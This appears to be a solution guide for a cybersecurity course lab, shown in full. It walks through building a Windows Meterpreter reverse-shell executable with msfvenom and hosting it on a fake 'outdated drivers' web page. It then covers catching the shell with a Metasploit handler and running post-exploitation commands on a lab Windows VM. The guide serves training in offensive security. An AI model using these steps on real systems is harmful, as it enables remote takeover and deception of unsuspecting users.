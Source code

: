 ## Solution Guide: Creating Custom Payloads

The goal of this activity was to craft customized payload options and understand how criminal hackers use them to bypass security controls.

---

### In the Kali Machine

1. For this attack, you will craft a custom malicious payload.

   Using `msfvenom`, craft a malicious executable with the following criteria:

      - Creates a `reverse_tcp` session using Meterpreter.
     
      - Payload is designed to exploit any Windows platform in general.

      - The file type is EXE.

      - Saves the output file to the `/var/www/html/` directory.

      - The local host is the attacking machine's IP address (Kali Linux).

      - The local port is `4444`.

      - Has the name `drivers.exe`.

   After you craft the payload, run the command to create it.  

    - **Solution**: `msfvenom -p windows/meterpreter/reverse_tcp -f exe LHOST=192.168.0.8 LPORT=4444 -o /var/www/html/drivers.exe`
        
    ![MSV 5](./Images/MSV_5.png)

2. To begin, create a backup of the index.html file that is located in the `/var/www/html/` directory without overwriting its current contents:

   -  Run the following commands:
   ​
      - `cp /var/www/html/index.html /var/www/html/index.html.bak`

         - This command backs up the original `index.html` without overwriting it.
   ​
      - `ls /var/www/html/`
         - This lists the contents of the `/var/www/html/` directory to verify that you have both the `index.html` and `index.html.bak` files. 


3. Build the malicious code into the webpage. The HTML code is provided below. You will need to edit the `/var/www/html/index.html` file with the name of your executable `drivers.exe`.

   - Use Nano to edit the `index.html` file:

      - Run `nano /var/www/html/index.html`

  - Edit the following code into the file and change the name of your executable in the HTML code from `sample.exe` to `drivers.exe`:
​ 
   ```html
   <html>
   <head>
      <title>Error 405: Unable to…</title>
   </>
   <body>
      <h1>Error 405: Unable to browse the web.</h1>
      <hr>
      <h3>Your drivers seem to be outdated and are not secure anymore. To resolve this issue and access the internet again you need to update your drivers.</h3>
      <br>
      <h3>Click <a href=sample.exe>here</a> to download and install the required drivers.</h3>
   </body>
   </html>
   ```
      
![MSV 1](./Images/MSF_ACT_1.png)

View the `index.html` file to verify it contains `drivers.exe`. 
- Run: `cat /var/www/html/index.html`

![MSV 2](./Images/MSF_ACT_2.png)

4. Now that we have our website staged, restart the Apache2 service to get it up and running:

   - You will need to restart the service every time you make a change to this file. 
  
   - Restart the Apache2 web server.

      - **Solution**: Run `service apache2 restart`

5. Launch the Metasploit Framework. 

     -  **Solution**: Run `msfconsole`

      We are now presented with the `msfconsole` prompt.

     ![MSV 3](./Images/MSF_ACT_3.png)

6. Test the malicious website to ensure it's working properly. Launch a web browser and navigate to the localhost:
​
   - Type the following into the URL: `127.0.0.1`
​
   - The webpage should launch with the headline: **Error 405: Unable to browse the web.**
​
   - This indicates our website is online and ready for action.

   - Note that while the website shows an error, the page contains the malicious link that unsuspecting visitors are encouraged to click.

​
    ![MSV 4](./Images/MSF_ACT_4.png)

7. Now we will configure the setting for the listener. Return to the terminal. Run the series of commands that will accomplish the following tasks and then run the exploit.

    **Solutions:**

   -  Uses the `exploit/multi/handler` module:

      - `use exploit/multi/handler`

   - Sets the payload to `windows/meterpreter/reverse_tcp`:

     - `set PAYLOAD windows/meterpreter/reverse_tcp`

   - Sets the local host to the IP of Kali Linux:

     - `set LHOST 192.168.0.8`

         (`192.168.0.8` is the IP of Kali.)

   -  Sets the local port to `4444`:

      - `set LPORT 4444`

   - Verifies that the settings took effect:

     - `show options`

   - Runs the exploit:

     - `exploit` or `run`

     ![MSV 5](./Images/MSF_ACT_5.png)
### In the DVW10 Windows Machine

8. Launch the DVW10 VM and open the web browser.

    Type the IP address of the Kali Linux machine in the URL.

    - **Solution:** `192.168.0.8` 

   - You will get a series of error messages. For both prompts, select **Run**.
    
​
    ![MSV 6](./Images/MSF_ACT_6.png)

  This step delivered the payload to the victim's machine. We can now return to our attacking machine and perform some post-exploitation.   


### In the Kali Machine

9. Return to the Kali machine and perform some post-exploitation commands. 

   **Solutions:**

   - Run the command that generates a Windows command prompt:

     -  `shell`

   - Run the command that returns network shares:

     - `net share`

   - Run the command that returns all users on the DVW10 system:

     - `net users`

     ![MSV 7](./Images/MSF_ACT_7.png)

____

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
